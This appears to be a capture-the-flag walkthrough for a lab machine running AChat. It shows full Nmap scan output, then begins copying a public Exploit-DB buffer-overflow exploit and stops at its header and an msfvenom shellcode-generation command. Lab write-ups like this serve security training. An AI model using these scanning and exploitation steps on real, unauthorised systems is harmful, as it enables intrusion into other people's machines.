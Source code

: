I decided to go with a Connect scan, with no service enumeration, on all TCP ports. This should help with the speed, as we're just trying to get a simple fix on the port being open or not. Once we get some port numbers, we can limit our follow-up scans ot those ports.

```
# Nmap 7.80SVN scan initiated Mon Feb 24 10:30:27 2020 as: nmap -Pn -p- --reason -oN scans/tcp_full_nosvc -T5 -vv 10.10.10.74
Nmap scan report for 10.10.10.74
Host is up, received user-set (0.048s latency).
Scanned at 2020-02-24 10:30:27 EST for 696s
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT     STATE SERVICE REASON
9255/tcp open  mon     syn-ack
9256/tcp open  unknown syn-ack
```

As you can see above, only TCP ports 9255 and 9256 were found to be open. We can do a deeper dive to these ports, and see what's running on them.

```
# Nmap 7.80SVN scan initiated Mon Feb 24 10:43:58 2020 as: nmap -p 9255,9256 -A -Pn --reason -oN scans/tcp_ports_full -vv 10.10.10.74
Nmap scan report for 10.10.10.74
Host is up, received user-set (0.046s latency).
Scanned at 2020-02-24 10:43:58 EST for 7s

PORT     STATE SERVICE REASON  VERSION
9255/tcp open  http    syn-ack AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   syn-ack AChat chat system
```

It looks like we're looking at AChat. Port 9255 looks to be hosting an HTTP server, while 9256 looks like it could be the actual service port. Oddly enough, the HTTP server on 9255 gives no return through either a web browser or cURL.

---

## Initial Shell

### Remote Buffer Overflow in AChat

Searching Exploit-DB for AChat gives us [this exploit](https://www.exploit-db.com/exploits/36025), which also has a Metasploit module. We can copy it locally with `sspt -m exploits/windows/remote/36025.py`, and rename it with `mv 36025.py rbfo.py`. Below are the contents of the file, as copied.

```python
#!/usr/bin/python
# Author KAhara MAnhara
# Achat 0.150 beta7 - Buffer Overflow
# Tested on Windows 7 32bit

import socket
import sys, time

# msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```